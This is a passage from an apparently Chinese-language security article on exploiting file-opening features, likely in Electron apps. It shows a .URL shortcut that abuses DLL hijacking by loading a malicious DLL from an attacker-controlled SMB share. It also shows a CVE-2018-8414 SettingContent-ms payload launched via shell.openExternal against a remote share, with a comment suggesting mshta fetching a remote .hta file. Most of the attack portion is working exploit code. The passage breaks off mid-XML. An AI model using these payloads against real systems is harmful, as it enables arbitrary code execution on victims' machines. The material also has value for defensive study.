 [![](https://p0.ssl.qhimg.com/t01c3f76c1507075bd4.png)](https://p0.ssl.qhimg.com/t01c3f76c1507075bd4.png)

<a class="reference-link" name="3.3%20UNC%20+%20URL%20+%20DLL%E5%8A%AB%E6%8C%81%E6%96%B9%E5%BC%8F"></a>**3.3 UNC + URL + DLL劫持方式**

为了解决上面存在的问题，介绍下之前看到的通过url+dll劫持的方式进行绕过的方式，我们通过在URL当中指定在windows下存在dll缺陷的exe应用程序，然后我们将workDirectory指定为可控的smb共享目录，这样在受害者打开我们的URL文件的URL标签中指定的文件时候，会去通过我们设定的workDirectory目录去寻找相关的dll，这个时候只需要将我们的dll放入我们设定的smb共享目录中就可以实现一个恶意dll的加载，URL内容如下所示

```
[InternetShortcut]
URL=file:///C:/Windows/WinSxS/amd64_netfx-mscorsvw_exe_b03f5f7f11d50a3a_10.0.19041.1_none_99318cb064fcaf44/mscorsvw.exe
WorkingDirectory=\\127.0.0.1\C$\temp\
```

在这里可以看到mscorsvw.exe成功的去加载了我们的smb共享里的dll

[![](https://p4.ssl.qhimg.com/t019969c414965b251a.png)](https://p4.ssl.qhimg.com/t019969c414965b251a.png)

这是因为C:/Windows/WinSxS/amd64_netfx-mscorsvw_exe_b03f5f7f11d50a3a_10.0.19041.1_none_99318cb064fcaf44目录下没有mscorsvc.dll，所以会去我们指定的工作目录去加载

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01e9f34100f0442576.png)

总结来说上述的方案可以适用于
1. 易受攻击的应用程序允许执行文件但没有参数
<li>可以滥用这个漏洞来加载 `file://attacker/SmbShare/random.URL`
</li>
1. evil.URL的结构如上述所说，找到存在dll劫持的应用程序写在URL当中，workDirectory指定为可控的smb共享目录
1. exe加载时由于缺少dll会从远程加载dll导致任意代码执行
<a class="reference-link" name="3.4%20SettingContent-ms%E7%9A%84%E6%96%B9%E5%BC%8F"></a>**3.4 SettingContent-ms的方式**

```
当然除了上述叙说的URL形式，在没有打补丁的情况，我们还可以借用CVE\-2018\-8414 SettingContent\-ms的方式进行利用，出现这个漏洞的原因简单来说就是Windows 10下执行.SettingContent\-ms后缀的文件，系统并未判断该类文件所在的路径是否在控制面板相关目录下，便直接执行了文件中用于控制面板设置相关的DeepLink标签指定的任意程序，导致用户执行系统任意目录下的此类文件或者从网络上下载的经过精心设计的.SettingContent\-ms文件也会直接执行其中指定的恶意程序对象，导致任意代码执行。
```

```
const `{`shell`}` = require('electron');shell.openExternal('file://10.1.1.1/C$/share/test.SettingContent.ms');
```

test.SettingContent.ms的文件内容

```
&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;PCSettings&gt;
  &lt;SearchableContent xmlns="http://schemas.microsoft.com/Search/2013/SettingContent"&gt;
    &lt;ApplicationInformation&gt;
      &lt;AppID&gt;windows.immersivecontrolpanel_cw5n1h2txyewy!microsoft.windows.immersivecontrolpanel&lt;/AppID&gt;
      //example:mshta https://1.1.1.1/kkk.hta
      &lt;DeepLink&gt;%windir%\system32\cmd.exe /c calc.exe&lt;/DeepLink&gt;
      &lt;Icon&gt;%windir%\system32\control.exe&lt;/Icon&gt;
    &lt;/ApplicationInformation&gt;
    &lt;SettingIdentity&gt;
      &lt;PageID&gt;&lt;/PageID&gt;
      &lt;HostID&gt;`{`12B1697E-D3A0-4DBC-B568-CCF64A3F934D`}`&lt;/HostID&gt;
    &lt;/SettingIdentity&gt;
    &lt;SettingInformation&gt;
      &lt;Description&gt;@shell32.dll,-4161&lt;/Description&gt;
      &lt;Keywords&gt;@shell32.dll,-4161&lt;/Keywords&gt;
    &lt;/SettingInformation&gt;
```
